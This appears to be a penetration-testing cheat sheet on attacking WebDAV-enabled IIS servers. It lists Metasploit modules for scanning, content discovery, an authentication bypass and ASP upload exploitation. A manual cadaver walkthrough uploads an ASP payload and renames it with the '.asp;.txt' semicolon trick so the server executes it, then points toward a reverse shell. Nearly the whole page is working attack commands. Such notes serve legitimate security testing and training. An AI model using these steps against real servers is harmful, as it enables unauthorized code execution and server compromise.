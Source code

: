 # 🟨 WebDAV

### <mark style="color:orange;">WebDAV Exploitation using Metasploit</mark> <a href="#webdav-exploitation-using-metasploit" id="webdav-exploitation-using-metasploit"></a>

```bash
# Checking WebDAV using metasploit
use auxiliary/scanner/http/webdav_scanner
set rhosts <IP>
run

# Content discovery using metasploit
use auxiliary/scanner/http/webdav_website_content
set rhosts <IP>
run

# Checking authentication using metasploit
use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass
set rhosts <IP>
run

# Upload exploitation using metasploit
use exploit/windows/iis/iis_webdav_upload_asp
```

### <mark style="color:orange;">Manual WebDAV exploitation (cadaver)</mark> <a href="#manual-webdav-exploitation-cadaver" id="manual-webdav-exploitation-cadaver"></a>

```bash
cadaver http://IP/

# Goal is to upload file on IIS Server.
ls 

# Find a directory where we can upload.
cd <path>

# Test for upload
put /path/to/test.asp test.asp

# Upload payload
put /path/to/payload.asp longnamebrotesttest123456789.txt

# Copy and rename payload
copy longnamebrotesttest123456789.txt longnamebrotesttest123456789.asp;.txt

# Access (should execute the ASP content)
http://IP/_vti_pvt/longnamebrotesttest123456789.asp%3b.txt
        
# Then go for reverse shell
```
